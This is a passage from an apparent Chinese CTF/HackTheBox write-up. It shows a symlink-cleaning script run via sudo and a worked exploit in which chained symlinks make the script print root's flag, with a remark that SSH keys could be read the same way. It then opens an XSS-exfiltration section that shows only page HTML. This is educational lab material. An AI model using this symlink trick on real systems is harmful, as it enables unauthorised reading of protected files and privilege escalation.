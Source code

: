 ```
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```
脚本设计用于检查一个文件（作为参数传递）是否是一个指向 PNG 文件的符号链接。如果是，它会检查符号链接的目标，并决定是删除它还是将其隔离。具体来说，如果符号链接指向敏感文件或目录（如 /etc 或 /root ），则会删除链接。否则，它将在指定的目录（/var/quarantined）中隔离链接。如果将 `CHECK_CONTENT` 变量设置为 true ，它还可能打印隔离文件的內容。

首先我们的思路就是读取root的flag，我们可以把这个`.txt`链接到`.png`上，但是直接链接会报错，我们在中间再转折一下

```
bob@linkvortex:~$ export CHECK_CONTENT=true
bob@linkvortex:~$ touch link1.png
bob@linkvortex:~$ `ln -sf /root/root.txt link1.png`
bob@linkvortex:~$ touch link2.png
bob@linkvortex:~$ `ln -sf /home/bob/link1.png link2.png`
bob@linkvortex:~$ ls
link1.png  link2.png  user.txt
bob@linkvortex:~$ sudo bash /opt/ghost/clean_symlink.sh link2.png
Link found [ link2.png ] , moving it to quarantine
Content:
a2340eed30a7a15b1fb810a7945d2338
```

实际上这个就是个任意文件读取，我们当然可以去读取ssh的密钥去做到提权的效果

### XSS外带文件
>写这个就想起了ccb线下赛的XSS外带cookie，虽然不是web手，但是想起来这个没做出来就很难受，害

看看网页源代码

```

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/style.css">
    <title>Alert - Markdown Viewer</title>
</head>
<body>
    <nav>
        <a href="index.php?page=alert">Markdown Viewer</a>
        <a href="index.php?page=contact">Contact Us</a>
        <a href="index.php?page=about">About Us</a>
        <a href="index.php?page=donate">Donate</a>
            </nav>
    <div class="container">
        <h1>Markdown Viewer</h1><div class="form-container">
            <form action="visualizer.php" method="post" enctype="multipart/form-data">
                <input type="file" name="file" accept=".md" required>
                <input type="submit" value="View Markdown">
            </form>
          </div>    </div>
    <footer>
        <p style="color: black;">© 2024 Alert. All rights reserved.</p>
    </footer>
</body>
</html>
```